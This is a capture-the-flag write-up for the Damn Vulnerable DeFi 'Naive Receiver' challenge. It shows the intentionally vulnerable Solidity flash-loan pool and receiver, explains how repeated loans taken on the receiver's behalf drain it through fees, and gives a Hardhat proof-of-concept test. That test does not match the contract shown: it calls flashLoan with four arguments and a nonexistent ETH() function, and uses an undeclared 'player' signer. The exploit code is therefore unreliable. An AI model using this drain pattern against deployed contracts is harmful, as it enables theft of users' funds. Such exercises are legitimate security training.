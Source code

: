 # Damn Vulnerable Defi: 2. Naive Receiver

> There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
> You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
> Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

**Objective of CTF:**

- Steal all ETH from the receiver contract.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard {
  using Address for address;

  uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan

  function fixedFee() external pure returns (uint256) {
    return FIXED_FEE;
  }

  function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool");

    require(borrower.isContract(), "Borrower must be a deployed contract");
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(abi.encodeWithSignature("receiveEther(uint256)", FIXED_FEE), borrowAmount);

    require(address(this).balance >= balanceBefore + FIXED_FEE, "Flash loan hasn't been paid back");
  }

  // Allow deposits of ETH
  receive() external payable {}
}

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver {
  using Address for address payable;

  address payable private pool;

  constructor(address payable poolAddress) {
    pool = poolAddress;
  }

  // Function called by the pool during flash loan
  function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value + fee;
    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");

    _executeActionDuringFlashLoan();

    // Return funds to pool
    pool.sendValue(amountToBeRepaid);
  }

  // Internal function where the funds received are used
  function _executeActionDuringFlashLoan() internal {}

  // Allow deposits of ETH
  receive() external payable {}
}
```

## The Attack

The important thing to notice here is that `flashLoan` function does not care about the transaction origin, it simply takes a borrower address and a borrow amount.

As such, the receiver contract at the borrower address, if not aware of this fact, may naively implement a vulnerable `receiveEther` function for the flash loan. That is exactly what happens here.

The receiver has implemented a `receiveEther` function that only cares about `msg.sender` being the pool. We can easily get past that by asking for a flash loan for this receiver contract.

Since taking a loan results in a fee to be paid, and `receiveEther` implements the logic to pay for that fee, we can drain the funds by making it pay for the loan fee again and again. Since the fee is 1 ETH and the receiver has 10 ETH, we can ask for a loan 10 times for the receiver and the funds will be drained!

## Proof of Concept

Here is a Hardhat test to demonstrate the attack.

```typescript
describe("DamnVulnDefi 2: Naive Receiver", () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let pool: NaiveReceiverLenderPool;
  let receiver: FlashLoanReceiver;

  const ETHER_IN_POOL = ethers.utils.parseEther("1000"); // pool has 1000 ETH
  const ETHER_IN_RECEIVER = ethers.utils.parseEther("10"); // receiver has 10 ETH
  const ETHER_LOAN_FEE = ethers.utils.parseEther("1"); // flash loaning costs 1 ETH

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    pool = await ethers.getContractFactory("NaiveReceiverLenderPool", owner).then((f) => f.deploy());
    receiver = await ethers.getContractFactory("FlashLoanReceiver", owner).then((f) => f.deploy(pool.address));

    // send ETH to pool
    await owner.sendTransaction({ to: pool.address, value: ETHER_IN_POOL });
    expect(await ethers.provider.getBalance(pool.address)).to.be.equal(ETHER_IN_POOL);
    expect(await pool.fixedFee()).to.be.equal(ETHER_LOAN_FEE);

    // send ETH to receiver
    await owner.sendTransaction({ to: receiver.address, value: ETHER_IN_RECEIVER });
    expect(await ethers.provider.getBalance(receiver.address)).to.be.equal(ETHER_IN_RECEIVER);
  });

  it("should drain funds from receiver", async () => {
    // receiver has 10 ethers, and will pay 1 ether fee for each flash loan
    // we can make flash loans in their place, and drain everything
    // borrow amount does not matter, so we use 0 for that
    for (let i = 0; i < 10; i++) {
      await pool.connect(player).flashLoan(
        receiver.address, // borrower is receiver
        await pool.ETH(), // want to borrow ETH
        0, // amount is 0
        "0x" // data is empty
      );
    }

    // NOTE: you can also do this from within a contract, thus achieving the same result in a single transaction
  });

  after(async () => {
    // all ETH should be drained from the receiver
    expect(await ethers.provider.getBalance(receiver.address)).to.be.equal(0);
    expect(await ethers.provider.getBalance(pool.address)).to.be.equal(ETHER_IN_POOL.add(ETHER_IN_RECEIVER));
  });
});
```

